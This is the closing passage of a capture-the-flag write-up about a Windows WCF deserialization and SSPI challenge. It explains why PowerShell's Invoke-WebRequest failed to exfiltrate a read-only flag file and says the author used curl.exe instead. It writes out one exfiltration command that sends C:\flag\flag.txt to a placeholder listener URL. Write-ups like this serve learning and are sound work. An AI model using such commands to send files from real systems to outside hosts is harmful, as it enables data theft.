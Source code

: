 ![exp01.gif](./writeup/imgs/exp01.gif)

## Caveat

In the participant instructions, it is mentioned that "the flag is mounted as read-only at `C:\flag\flag.txt` in a Docker container based on `mcr.microsoft.com/windows/servercore:ltsc2022`".

One of my first attempts to exploit the challenge and exfiltrate the flag was to use `Invoke-WebRequest` to send the flag to a weblistener, but it failed. After a bit of debugging, I realized that it is because the flag was mounted as read-only, and the `Invoke-WebRequest` cmdlet in PowerShell would fail to exfiltrate the flag due to the `-InFile` parameter trying to modify the file attributes. If you run `curl`, `wget`, or `iwr` in PowerShell, they are all aliases for the `Invoke-WebRequest` cmdlet. This issue was fixed in PowerShell version 7.X, but the default version used on Windows is 5.1. This issue is also mentioned here: [https://www.reddit.com/r/PowerShell/comments/pwhsw2/invokerestmethod_method_put_infile_doesnt_work/](https://www.reddit.com/r/PowerShell/comments/pwhsw2/invokerestmethod_method_put_infile_doesnt_work/).

If you replicate the *exact same* environment as the one described in the provided instructions (flag marked as read-only and the correct Docker image), you should be able to observe this behaviour youself. You can reproduce this issue by marking a file as read-only on your local system and then trying to exfiltrate it using `curl -InFile C:\flag\flag.txt https://some-listener.com/` in PowerShell.

My solution was to use `curl.exe` (which is different from the `curl` PowerShell-cmdlet) to exfiltrate the flag. The `curl.exe` command is not affected by the read-only attribute of the file.

## Conclusion

Thank you for reading this far. There are probably countless ways to implement the solution, but I decided to go for the most educational approach, for your sake and mine. There was no intended way to solve the challenge, except for the deseriazliation attack as well as the SSPI "bypass". For a moment, I even considered making a TCP proxy to intercept the traffic between the client and server, but I decided I'd rather learn more about WCF and SSPI - but in a CTF, you might not have the luxury of time.

I hope you learned something new, and that you enjoyed the challenge and writeup.

If you have any questions or feedback, feel free to reach out to me on X/Twitter ([@ly4k_](https://twitter.com/ly4k_)), Discord, or whichever way you can find me*.

*Limitations may apply.
